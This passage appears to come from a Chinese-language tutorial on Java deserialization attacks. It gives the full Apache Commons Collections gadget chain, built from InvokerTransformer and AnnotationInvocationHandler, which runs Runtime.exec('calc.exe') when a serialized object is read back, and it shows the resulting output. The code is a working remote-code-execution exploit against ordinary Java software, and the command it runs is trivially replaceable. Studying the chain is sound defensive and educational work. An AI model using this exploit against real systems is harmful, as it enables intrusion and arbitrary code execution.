  ```java
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                  new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
  
          Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
  
          Map innerMap = new HashMap();   //实例化一个Map对象
          innerMap.put("value", "value");
  
          Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
  
          Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
          Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
          ctor.setAccessible(true);
          Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
  
          FileOutputStream f = new FileOutputStream("./test.txt");
          ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
          out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
          out.flush();
          out.close();
          //开始反序列化test.txt文件
          Unser();
      }
  
      public static void Unser() throws IOException,ClassNotFoundException{
          FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
          ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
          User u= (User) ins.readObject();   //反序列化
          System.out.println("反序列化成功！");
          ins.close();
      }
  };
  
  ```
- jdk7下弹出了计算器。

  ```shell
  Exception in thread "main" java.lang.ClassCastException: sun.reflect.annotation.AnnotationInvocationHandler cannot be cast to test.User
  	at test.Annotest.Unser(Annotest.java:52)
  	at test.Annotest.main(Annotest.java:46)
  虽然会报类转换错误，但是是先反序列化成对象，然后 (User)转换的。所以没有关系。
  ```
